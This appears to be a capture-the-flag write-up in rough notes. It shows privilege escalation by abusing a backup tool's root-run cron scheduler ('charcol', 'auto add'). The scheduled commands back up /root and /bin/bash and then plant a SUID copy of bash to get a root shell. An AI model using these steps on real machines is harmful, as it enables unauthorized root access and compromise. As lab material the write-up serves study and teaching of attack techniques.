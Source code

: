 Lets see what happens this time.
Okay there is a backup file now . So we should add password . Huhh
Lets dump it locally and extract .
Nope it shows empty . Lets extract it from the charcol application itself.
Nope that shows empty

Lets edit the cron job
```bash
auto add --schedule "* * * * *" --command "charcol backup -i /root -o /tmp/r3b00t/backup -p haha" --name "rootDump" --log-output /tmp/r3b00t/backup.log
```
  
Nope that didnt work  .Lets add suid C program , backup and then extract or copy /bin/bash and backup and then decrypt it and see
```bash
auto add --schedule "* * * * *" --command "charcol backup -i /bin/bash -o /tmp/r3b00t/backup -p haha --no-timestamp" --name "binBashBkp"  --log-output /tmp/r3b00t/backup.log
```
  
Now working . Lets try not to add -o and
```bash
auto add --schedule "* * * * *" --command "charcol backup -i /bin/bash -p haha --no-timestamp" --name "binBashBkp"  --log-output /tmp/r3b00t/backup.log
```

  
That didnt work . Maybe we need to copy binBash file and backup that one I guess
```bash
auto add --schedule "* * * * *" --command "charcol backup -i /tmp/r3b00t/bash -o /tmp/r3b00t/rshell -p haha --no-timestamp" --name "binBashBkp"  --log-output /tmp/r3b00t/backup.log
```
  
Added this one , lets see what happens .
Yeah now I can see bash file when listing . Lets extract it

```bash
auto edit 8a47f12b-48da-4828-a0ac-3b81e2468bb4 --schedule "* * * * *" --command "charcol backup -i /tmp/r3b00t/bash -o /tmp/r3b00t/rshell2 -p haha --no-timestamp" --name "binBashBkp2"  --log-output /tmp/r3b00t/backup.log
```
  
Lets see what can we do
Lets see if we can add regular bash commands
```bash
auto add --schedule "* * * * *" --command "cp /bin/bash /tmp/r3b00t/rootShell3; chmod u+s /tmp/r3b00t/rootShell3" --name "binBashBkp3"  --log-output /tmp/r3b00t/backup.log
```
  
  
Lets see what happened . Shit I am stupid . We can run normal bash commands , i thought the --command in auto add was exclusive to the application commands only . Looks like we can add system commands too here

It worked , but not able to get rootshell
- rwsr-xr-x  1 root root 1.5M Oct  3 10:32 rootShell3

```bash
auto edit 5fe76728-a07a-4159-9478-76401da09521 --schedule "* * * * *" --command "/tmp/r3b00t/rshellC" --name "binBashBkp4"  --log-output /tmp/r3b00t/backup4.log
```
  